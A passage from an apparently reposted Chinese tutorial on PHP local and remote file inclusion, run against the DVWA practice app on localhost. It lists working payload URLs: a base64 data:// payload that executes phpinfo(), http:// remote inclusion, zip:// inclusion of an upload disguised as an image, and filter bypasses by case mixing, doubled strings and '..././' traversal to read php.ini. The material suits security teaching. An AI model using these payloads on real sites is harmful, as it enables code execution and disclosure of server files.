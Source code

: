   
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicM2adylDHQSE9Wvlt8r17ZCPickf45PLZjhRJl98Q6cqJrKcWcUcP8S68TglDpLL8ytjFkSUt0jY8A/640?wx_fmt=png&from=appmsg "")  
  
  
### 5. http:// & https://  
1. 作用：允许通过HTTP 1.0  
的 GET方法，以只读访问文件或资源。  
  
1. 使用方法：http://127.0.0.1/dvwa/vulnerabilities/fi/?page=http://www.baidu.com  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicM2adylDHQSE9Wvlt8r17ZCZg70NJ5j5ImFKsz8eofFc8VM6ZIIicPgktrPzx6eibQlK4tGuGQA5ib9A/640?wx_fmt=png&from=appmsg "")  
  
  
### 6. zip:// & bzip2:// & zlib://  
1. 作用：可以访问压缩文件中的子文件，且不需要指定后缀名。  
  
1. 使用方法：压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传  
  
http://127.0.0.1/dvwa/vulnerabilities/fi/?page=zip://D:\phpstudy_pro\WWW\dvwa\hackable\uploads\phpinfo.jpg%23phpinfo.txt  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicM2adylDHQSE9Wvlt8r17ZCayxlsn8aWqDUmDXx2rOl1CTKFFenH3ZgOLr5qU4dRKck0awxEnIfTw/640?wx_fmt=png&from=appmsg "")  
  
## 五、绕过方式  
### 1. 大小写、双写绕过  
```
```  
  
过滤了'http://'；'https://'；  
  
大小写绕过：http://127.0.0.1/dvwa/vulnerabilities/fi/?page=HtTp://www.baidu.com  
  
双写绕过：http://127.0.0.1/dvwa/vulnerabilities/fi/?page=hthttp://tp://www.baidu.com  
  
过滤'../'；'..\\'，双写绕过：http://127.0.0.1/dvwa/vulnerabilities/fi/?page=..././..././php.ini  
### 2. 伪协议绕过  
```
```  
  
file伪协议绕过：http://127.0.0.1/dvwa/vulnerabilities/fi/?page=file:///D:/phpstudy_pro/WWW/dvwa/php.ini  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicM2adylDHQSE9Wvlt8r17ZCFcILQId0nc9AXZrbLIp05ryLWUhoT5XicwUfRia5ynR2OwhcpkOWcoDw/640?wx_fmt=png&from=appmsg "")  
  
  
转自：https://www.freebuf.com/articles/web/419155.html  
  

